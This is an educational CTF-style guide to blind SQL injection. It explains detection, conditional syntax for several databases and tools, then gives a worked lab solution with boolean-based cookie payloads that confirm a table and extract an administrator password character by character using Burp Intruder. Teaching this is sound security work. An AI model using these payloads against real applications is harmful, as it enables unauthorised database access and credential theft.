





# SQL Injection: Blind SQL Injection

## Introduction

Blind SQL Injection is a type of SQL injection attack where the attacker cannot see the result of the query directly. Instead, they infer information from the application's behavior, such as differences in response times or error messages. This method is useful when error messages are not displayed, but the application still processes the injected SQL commands. Sadly blind injection challenges are generally harder than normal SQLi question, but that doesn't mean you can't solve it :)

## Table of Contents

- [SQL Injection: Blind SQL Injection](#sql-injection-blind-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Blind SQL Injection vulnerabilities, pay attention to subtle differences in application responses. Indicators include:

1. **Behavior Testing:** Entering SQL syntax that does not produce visible errors but causes changes in application behavior, such as differences in response times or content.
2. **Boolean-based Testing:** Using boolean conditions (true/false) to determine the existence of a vulnerability.
3. **If Statements**: This is one of the key techniques for Blind SQL Injection. Also very useful to test simpler things blindly yet accurately. The syntax is slightly different based on the database used.
     *   MySQL If Statement

         > IF(condition,true-part,false-part)\
         > SELECT IF(1=1,'true','false')

     *   SQL Server If Statement

         > IF condition true-part ELSE false-part\
         > IF (1=1) SELECT 'true' ELSE SELECT 'false'
     *   Oracle If Statement

         > IF condition THEN true-part; ELSE false-part; END IF;\
         > IF (1=1) THEN dbms\_lock.sleep(3); ELSE dbms\_lock.sleep(0); END IF;
     *   PostgreSQL If Statement

         > SELECT CASE WHEN condition THEN true-part ELSE false-part END;\
         > SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END;
     *   SQLite If Statement

         > if(condition, true-part, false-part)\
         > SELECT iif(1<2, "True", "False");
4. **Time-based Testing:** Using time delays (e.g., `SLEEP` function) to measure response times and infer database information. (More on this in [here](./time_based_blind_injections.md))

Example:
```plaintext
http://example.com/item.php?id=1 AND 1=1 -- (Normal response)
http://example.com/item.php?id=1 AND 1=2 -- (Different response)
```
 or maybe a form
 ```
 Product ID: A97HY  (Normal response)
 Product ID: true --  (Different response)
 ```

## Code/tools/websites

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites

> https://ctflearn.com/challenge/430 [Quite hard]
> 
Hint: First use auth by-pass then start applying blind SQL.
## Sample problem

### Problem Statement
You are provided with a web application that uses a tracking [cookie](https://dev.to/arikaturika/web-cookies-beginners-guide-28lh) for analytics, and performs a SQL query containing the value of the submitted cookie.

The application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. 

Identify if the application is vulnerable to Blind SQL Injection and find out the password of the administrator user.

<details>
<summary>HINT</summary>

The query used in the backend will look something like this:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
</details>

### Solution
<details>
<summary>Click to reveal the solution</summary>

#### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

1. The good case:

    For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

    ```sql
    SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
    ```

    The content of the cookie is

    `Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

    The webpage shows "Welcome back"

2. The bad case

    For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

    ```sql
    SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
    ```

    The content of the cookie is

    `Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

    The webpage does not show "Welcome back"

    As we found a vulnerable parameter, we can omit the session value from now on.

#### Confirm expected table

Now confirm that the `users` table exists. For this, select a string  from the table and compare the result to it.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

The webpage shows "Welcome back". 

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

The webpage does not show "Welcome back"

#### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

The webpage shows "Welcome back". Negative case with a different column name has been verified.

#### Get the length of the password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

The webpage does not show "Welcome back", so the password is not of length 1.

As an alternative, I can check with '>' instead of '='. It results in the "Welcome back" message meaning the password is longer than 1 character.

We can also Brute force the length with Burp Intruder (Sniper, Payload is '1' argument in query)





Thus we found that the password is exactly 20 characters long.

#### Enumerate password of the administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow but gets the work done. You can write a [python script](../../../assets/blind-sqli/script.py) to do this too (but it is out of scope for this topic).



The first character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*



- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters

This results in these responses with the 'Welcome Back' message:



Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

Now you can login as the administrator.
</details>

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Blind SQL Injection exploits differences in application behavior to infer database information without directly viewing the results. Identifying and exploiting these vulnerabilities requires careful observation and systematic testing.